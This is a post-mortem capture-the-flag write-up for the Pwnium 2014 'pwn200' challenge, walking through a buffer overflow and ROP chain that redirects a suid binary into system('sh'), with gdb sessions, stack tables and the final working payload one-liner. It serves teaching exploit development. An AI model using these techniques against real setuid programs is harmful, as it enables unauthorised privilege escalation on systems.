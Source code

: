 title: Be a Robot
date: 2014-07-30
author: makefu
tags: crackme, pwnium2014, post-mortem

 * **Author**: makefu

## Intro
First of all, this is a post-mortem solution for pwn200 as we failed to finish
it within ctf time both because the challenge was offline alot of the time and
that we were not experienced enough to find a solution.

The challenge was to elevate privileges on a remote server to a user which was
able to read the file $HOME/flag . The folder also contained a file named
pwn200 which had suid bit set for the user -> pop a shell by finding a vuln in
this program.

## Track the Vuln
Running the program looks like this:

    :::bash
    $ ./pwn200 
    Name: Bob
    Age: 10
    Goodbye little boy

    $ ./pwn200
    Name: Khan
    Age: -1
    [1]    6141 segmentation fault  ./pwn200

When supplying a negative age `eax` will not be updated in the function atExit
and the pointer will stay uninitialized. 

![failed check in atExit](data/be_a_robot/atExit.png)

The fgets which reads the name contains a buffer overflow which allows us to override exactly this pointer.

![bof in read\_user](data/be_a_robot/read_user.png)

Trying it in gdb looks like this:

    :::gdb
    (gdb) br *0x8048670 # call eax
    Breakpoint 1 at 0x8048670
    (gdb) r
    Starting program: /home/makefu/pwnium/200/pwn200 
    warning: Could not load shared library symbols for linux-gate.so.1.
    Do you need "set solib-search-path" or "set sysroot"?
    Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Breakpoint 1, 0x08048670 in atExit ()
    (gdb) disass 
    Dump of assembler code for function atExit:
      0x08048660 <+36>:  cmp    DWORD PTR [ebp+0x8],0x0
      0x08048664 <+40>:  jle    0x804866d <atExit+49>
      0x08048666 <+42>:  mov    DWORD PTR [ebp-0xc],0x804860c
      0x0804866d <+49>:  mov    eax,DWORD PTR [ebp-0xc]
    => 0x08048670 <+52>:  call   eax
      0x08048672 <+54>:  leave  
      0x08048673 <+55>:  ret    
    End of assembler dump.
    (gdb) i r eax
    eax            0x41414141 1094795585

## Prepare the stack for ROP
We cannot directly execute our name string as both ASLR and NX-Stack are enabled but there is a system call in a unused function called `test`:

    :::gdb
    (gdb) disassemble test
    Dump of assembler code for function test:
      0x08048694 <+0>: push   ebp
      0x08048695 <+1>: mov    ebp,esp
      0x08048697 <+3>: sub    esp,0x8
      0x0804869a <+6>: sub    esp,0xc
      0x0804869d <+9>: push   0x80487f3
      0x080486a2 <+14>:  call   0x8048430 <system@plt>
      0x080486a7 <+19>:  add    esp,0x10
      0x080486aa <+22>:  leave  
      0x080486ab <+23>:  ret    
    End of assembler dump.

Too bad we cannot directly prepare the stack with our provided text to supply a string which then can be executed. 
To be clear: we currently only control eip, not the whole stack. ROP to the rescue!

This is how our stack must look like for a successful exploit:

| Address  | Description |
|---------|------------:|
| call system          | <- esp                      |
| [command-string]     | <- esp + 4 (first argument) |

The ROP gadget i used is a simple 'pop-ret' which can be found with for example [msfrop]( http://shell-storm.org/project/ROPgadget/ ) or [ROPgadget](http://shell-storm.org/project/ROPgadget/). POP-RET is at `0x080487a6`.

By that we can prepare our input as an argument for the system call. As we have no shell command yet we will used `0x80487f3` - 'echo pwned' for testing.


### Follow the Execution Flow
These tables show the stack after each ROP step.

**Before call ROP**

| Address  | Description |
|:---------|:-----------:|
| [A\*36]     | BOF Filler    |
| [AAAA]      | BOF Filler    |
| 0x080486a2 `esp` | call system   | 
| 0x080487f3  | "echo hacked" |
| [BBBB]      | Filler        |
| 0x080487a6 `eip` | pop ebx;ret   | 

**After ret from pop-ret ROP Gadget**

| Address  | Description |
|:---------|:-----------:|
| [A\*32]     | BOF Filler        |
| 0x08048672  | ret addr call-eax |
| 0x080486a2  | call system       |
| 0x080487f3 `esp`  | "echo hacked"     |
| [BBBB]      | Filler            |
| 0x080487a6  | pop ebx;ret       |

**After call system**

| Address  | Description |
|:---------|:-----------:|
| [A\*32]     | BOF Filler           |
| 0x08048672  | ret addr call-eax    |
| 0x080486a2 `esp` | ret addr call-system |
| 0x080487f3 `parm1` | "echo hacked"        | 
| [BBBB]      | Filler               |
| 0x080487a6  | pop ebx;ret          |

**Quick Sidenote:**

 1. `call address` pushes the return address($eip+sizeof(call)) onto the stack and executes the function at  **address**.
 2. *ret* pops the return address from the stack and executes the address

The payload generation and testing looks like this:

    :::bash
    python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")'  > in
    gdb ./pwn200
    (gdb) r < in
    Starting program: ./pwn200 < in
    hacked
    Name: Age: [Inferior 1 (process 11968) exited normally]



### Find the exec string

We need a string address for system argument which allows us to run whatever commands we want. Due to the fact aslr is enabled hitting our 36 bytes short buffer is kind of unlikely. Using environment variables with `" "\*9001 +"/bin/sh"` may give us a better chance to guess the address but is still pretty crude.

`"sh"` which is short and gives us full access may reside in the executable after being loaded in the memory so i gave it a shot with gdb:
    
    :::gdb 
    (gdb) break main
    Breakpoint 1 at 0x8048701A
    (gdb) start
    (gdb) info proc mappings
    process 11324
    Mapped address spaces:

      Start Addr   End Addr       Size     Offset objfile
      0x8048000  0x8049000     0x1000        0x0 /home/makefu/pwnium/200/pwn200
      0x8049000  0x804a000     0x1000        0x0 /home/makefu/pwnium/200/pwn200
      0xf7564000 0xf7565000     0x1000        0x0 
      0xf7565000 0xf7720000   0x1bb000        0x0 /usr/lib32/libc-2.19.so
      0xf7720000 0xf7723000     0x3000   0x1ba000 /usr/lib32/libc-2.19.so
      0xf7723000 0xf7725000     0x2000   0x1bd000 /usr/lib32/libc-2.19.so
      0xf7725000 0xf7727000     0x2000        0x0 
      0xf7757000 0xf7759000     0x2000        0x0 
      0xf7759000 0xf775a000     0x1000        0x0 [vdso]
      0xf775a000 0xf777b000    0x21000        0x0 /usr/lib32/ld-2.19.so
      0xf777b000 0xf777c000     0x1000        0x0 
      0xf777c000 0xf777d000     0x1000    0x21000 /usr/lib32/ld-2.19.so
      0xf777d000 0xf777e000     0x1000    0x22000 /usr/lib32/ld-2.19.so
      0xffeba000 0xffedb000    0x21000        0x0 [stack]
    (gdb) find 0x08048000, +5000, "sh"
    0x8048c01
    1 pattern found.

Instead of 0x80487f3 we are now using 0x8048c01.

## Putting it all together

    :::bash
    # first pipe the shellcode, then use stdin
    (python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")'; cat) | ./pwn200
    ls /
    bin   dev  krebs  media  root  sbin  sys  usr  var
    boot  etc  home   lib    mnt   proc  run  tmp


## Cheers
To [Team Action Kaktus](https://ctftime.org/team/6997) on ctftime for making a writeup with a nonfunct solution, this made me try hard enough to finish it by myself.

[Download the pwn200 binary](data/be_a_robot/pwn200)

